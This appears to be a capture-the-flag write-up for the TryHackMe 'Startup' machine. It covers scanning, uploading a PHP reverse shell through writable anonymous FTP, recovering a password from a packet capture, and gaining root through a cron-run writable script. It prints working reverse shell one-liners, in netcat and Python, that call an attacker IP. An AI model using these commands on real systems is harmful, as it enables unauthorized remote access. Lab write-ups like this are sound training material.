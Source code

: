 ```yaml
---
title: Startup
date: 2022-07-06 17:00:00 +500
categories: [thm, easy-machines]
tags: []    # TAG names should always be lowercase
---
```


![Startup challenge graphic](https://i.ibb.co/zxb3d2j/spicesmall.png)

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!


### What is the secret spicy soup recipe?

Let's start with a Nmap scan

```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.16.11
```

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 60
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

so we have a web page with a message that there is no spice. I'll let a gobuster scan run, while I check the FTP server. `gobuster dir -u http://10.10.16.11 -w /usr/share/dirb/wordlists/common.txt -x .php`

In the FTP server, it admits anonymous login, and we have two files:

notice.txt
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I don't know who it is, but Maya is looking pretty sus.
```
Maya is a potential username.

and important.jpg which is an among us meme photo.

notice how the FTP folder is writable.


now let's come back to the gobuster scan, and we have something: `/files`{: .filepath} which if we notice is the FTP server. Since we have writing permissions on the FTP server and we have access via the web server, let's try to upload a [reverse shell](https://github.com/cotes2020/jekyll-theme-chirpy/fork) and execute it from the webserver.

So now you'll have to be on the directory where you have the reverse shell and connect to the FTP server, go to the folder that we have writing permission, now to upload a file to an FTP server with "`put` [file name]", in this case, `put reverseshell.php`.

now let's set up a listener that will receive the shell connection request.

```terminal
nc -lvpn [the port you choose on the reverseshell]
```

and finally, let's head over to the webpage and execute the file we just upload. It worked! now we have a shell on the target's machine.

listing the directory we have recipe.txt

>

### What are the contents of user.txt?

Enumerating a little the system, we see that there's a user 'lennie'. After a while of looking around, I wasn't able to find anything, so I'll try to use [linPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). I'll make a Python server on my machine with `python3 -m http.server` then on the target's machine `wget [your IP]:[PORT]/linpeas.sh`, and now run it with `bash ./linpeas.sh`.

after trying without luck, some exploits, I see this directory "/incidents/suspicious.pcapng", actually a few times during the linpeas execution, this is a format used to record captured network packet traces to a file, so let's see if we find anything interesting.

transfer it to your local machine with a Python server.

let's open the file with wireshark and analyze it, the last http request has a directory to a revershell apparently.
"[Request URI: http://192.168.33.10/files/ftp/shell.php]" someone that entered the system the same way we did.

let's export it all into a text file, so it's easier to read the content 'file -> Export Packet Dissections > as plain text' and see what's in it (I know this is not the best way but will do it) notice how every Linux command is after a hex direction and before that there's a number like '0000' or '0020' i was looking after those, looking what commands this person entered, and after a 'sudo -l' is prompted for a password and there's a password in the next packet, I thought it was www-data password but it was actually Lennie's password.

now we can use a more stable shell and login with ssh to the user Lennie.

and in his home directory is the flag user.txt

> 

### What are the contents of root.txt?

In Lennie's directory there's a "scripts" folder, in it it has a script that put the variable $LIST into the "startup_list.txt", first I thought there was going to be a crontab that executes this and may be vulnerable, but no. The files also are owned by root and are no writable, except for "/etc/print.sh".

let's try to put a reverse shell and execute it

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 1234 >/tmp/f`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.26.231",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

`bash /etc/print.sh`

It worked, and we got root! But not because I executed it. When I ran it, I got an error, so it must be a crontab from the root user, for sure.

now that we are root we can cat the root flag

>
